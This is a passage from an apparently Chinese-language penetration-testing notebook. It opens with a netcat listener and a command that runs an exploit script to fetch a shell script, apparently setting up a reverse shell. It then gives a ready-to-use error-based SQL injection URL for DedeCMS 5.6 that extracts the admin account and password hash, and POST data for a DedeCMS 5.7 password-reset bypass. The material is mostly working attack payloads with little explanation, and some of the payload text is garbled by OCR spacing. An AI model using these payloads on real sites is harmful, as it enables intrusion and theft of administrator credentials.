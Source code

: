 进行 nc 监听

```bash
root@kail:~# nc -v -l 1995
```

执行 exp

```bash
root@kail:~# python3 exploit.py "http://192.168.86.200:8080" "192.168.86.200/shell.sh"
```

## 02-DedeCMS 漏洞

织梦内容管理系统是国内最知名的PHP 开源网站管理系统，以简单、实用和开源而闻名，是使用用户最多的 PHP 类CMS 系统。织梦是基于 PHP+MySQL 技术架构，适用于个人网站或中小型门户网站的构建 。

### 01-DedeCMSV5.6

访问`ip/plus/search.php?keyword as&typeArr [ uNion ]=a`结果若出现`Safe Alert: Request Error step 1`

```
访问ip/plus/search.php?keyword=as&typeArr[111% 3D@`\\'`)+and+(SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(substring((select+CONCAT(0x7c,userid,0x7c,pwd)+%23@__admin`+limit+0,1),1,62)))a+from+information_schema.tables+group+by+a)b)% 23@`\\'`+]=a
```

可以看到EXP 攻击后出现后台管理员账号 admin 信息以及经过 MD5 加密的密文，解密后找到后台地址ip/dede登录

### 02-DedeCMS V57 版本漏洞-前台用户密码重置

点击忘记密码，使用POST方法，数据： `dopost=safequestion&safequestion=0.0&safeanswer=&id=1`

![dedecms5.7passwordresset1](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/dedecms5.7passwordresset1.png)

重置连接：ip/resetpassword.php?dopost getpasswd&id =1&3JdOa0iv（key 需要通过构造 POST 获取）
